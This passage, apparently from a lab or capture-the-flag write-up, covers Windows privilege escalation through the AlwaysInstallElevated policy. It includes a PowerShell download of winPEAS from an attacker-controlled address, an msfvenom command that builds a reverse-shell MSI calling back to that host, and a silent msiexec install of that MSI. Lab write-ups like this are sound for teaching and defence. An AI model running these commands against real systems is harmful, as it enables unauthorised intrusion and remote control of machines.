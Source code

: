 From there, I uploaded winPEAS to the host using the following PowerShell command:

```powershell
powershell.exe Invoke-WebRequest -OutFile winpeas.exe -Uri http://10.10.14.91/winPEAS.exe
```

The output showed that it was possible to exploit  `AlwaysInstallElevated`:

```bat
[+] Checking AlwaysInstallElevated
	[?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
	AlwaysInstallElevated set to 1 in HKLM!
	AlwaysInstallElevated set to 1 in HKCU!
```

### Exploiting AlwaysInstallElevated

There are a few blog posts describing how to exploit this, including: <https://ed4m4s.blog/privilege-escalation/windows/always-install-elevated>. 

> Windows environments provide a group policy setting which allows a regular user to install a Microsoft Windows Installer Package (MSI) with system privileges. This can be discovered in environments where a standard user wants to install an application which requires system privileges and the administrator would  like to avoid to give temporary local administrator access to a user.

Since both registry entries for **AlwaysInstallElevated** were set to 1, I needed to generate the payload to exploit this:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.91 LPORT=9002 -f msi -o reverse.msi
```

With the file now on the host, I used the following commands to exploit the **AlwaysInstallElevated** vulnerability:

```bat
msiexec /quiet /qn /i reverse.msi
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Love/img8.png"  style="width: 80%" />
</p>
